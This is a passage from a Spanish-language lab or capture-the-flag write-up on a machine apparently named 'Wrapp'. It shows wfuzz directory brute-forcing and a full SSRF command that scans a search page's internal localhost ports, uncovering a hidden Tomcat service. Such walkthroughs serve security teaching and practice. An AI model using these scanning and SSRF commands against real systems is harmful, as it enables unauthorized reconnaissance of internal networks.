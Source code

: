 ```bash
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.2.23/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                             
=====================================================================

000001073:   301        9 L      28 W       317 Ch      "javascript"                                                                                                                                        
000006538:   301        9 L      28 W       322 Ch      "advanced-search"                                                                                                                                   
```
Esto ya es mas interesante, una web en la cual podemos hacer busqueda de url, pruebo cosas para investigar.
![advanced-search]({{'/assets/img/Wrapp/advanced-search.png' | relative_url}})
Apunto a la maquina que aloja este servidor, concretamente al puerto 22 que vi que estaba abierto y sin mas. 
Pero ya se que puedo probar otras cosas,que puede que me de alguna informacion mas.
![ssh-web]({{'/assets/img/Wrapp/ssh-web.png' | relative_url}})
Ya que puedo a puntar al puerto 22, se me ocurre hacer Fuzzing de otro posibles puertos internos, que esten abiertos en la maquina de forma inerna.
```bash
❯ wfuzz -c --hw=0 -t 15 -z range,1-65535 "http://192.168.2.23/advanced-search/path.php?path=http://localhost:FUZZ"
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.2.23/advanced-search/path.php?path=http://localhost:FUZZ
Total requests: 65535

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                             
=====================================================================

000000022:   200        2 L      4 W        60 Ch       "22"                                                                                                                                                
000000080:   200        1 L      2 W        20 Ch       "80"                                                                                                                                                
000065000:   200        29 L     211 W      1895 Ch     "65000"                                                                                                                                             
```
Aparece otro puerto que no veia en el escaneo que hice con nmap, y con tiene lo siguiente...
![it-works]({{'/assets/img/Wrapp/it-works.png' | relative_url}})
Una pagina de tomcat "oficial" con informacion, que puede servir.
